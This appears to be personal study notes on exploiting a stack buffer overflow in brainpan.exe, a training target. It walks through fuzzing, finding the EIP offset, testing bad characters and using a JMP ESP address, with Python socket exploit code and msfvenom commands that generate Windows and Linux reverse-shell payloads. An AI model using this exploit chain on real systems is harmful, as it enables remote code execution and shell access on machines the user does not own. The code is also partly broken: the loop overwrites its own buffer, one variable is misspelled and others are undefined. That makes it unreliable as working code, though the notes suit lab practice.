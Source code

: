 # Buff_Over_flo

    //****buffer overflow steps -- use immunity debugger-open the file, sitting betwin file and attack host, view the ram space of the file running
    //1. code to test how long a input strings will make the app crashed. in 100 byte level
    //2. exactly the longth to EIP (4 bytes), the offset
    //3. check how long strings the ESP can accept, we need almost 400-500 bytes.
    //4. send the paylaod, offset + EIP(the address of ESP) + PAD ("\x90"*16) + shellcode(write to ESP)

    //code for setp1
    buffer =["A"]
    counter = 100

    while len(buffer) <=30:
        buffer.append("A"*counter)
        counter += 100

    for i in buffer:
        buffer = "A"*524 + "\xf3\x12\x17\x31"+ pad + shell
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(('192.168.56.117',9999))
        s.send(buffer)
        data = s.recv(1024)
        print(len(bufer), "Sent! ")
        s.close()
    //here the length is the value of offset
    
    //step 2 codes
        //buffer > offset ,but < offset +100
        //we tried to sent the length of buffer to get exactly offset, to make B to write on EIP addr
        buffer ="A"*x + "B"*4
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(('192.168.56.117',9999))
        s.send(buffer)
        data = s.recv(1024)
        s.close()
    
    //step3
        //change buffer = "A"*offset + "B"*4 + "C"*500 (500bytes is enough for revershell )
        //use same code as step2
        // send the bad char strings to test badchar which is not accept by the target software, ohter than \x00
        //the payload is "\x01 -- \xff"
    //step4
        buffer = "A"*offset + (the address of ESP) + PAD + shellcode
        //for ESP, we need to map the opcode(operation code) of JMP ESP, that is \xff\xe4.
            //!mona modules (mona.py) -- to check the sofatware is protected or not,  if it is false, we can find the addr os EIP, by find \xff\xe4
            //!mona find -s "\xff\xe4" -m brainpan.exe, we get a addr 311712f3, but the addr in the ram is "\xf3\x12\x17\x31"  //!mona jmp -r esp -cpb "\x00"
        //  reverse shellcode of bytes format,
            //msfvenom -p windows/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use to test on win host)
            //msfvenom -p linux/x86/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use on kali)
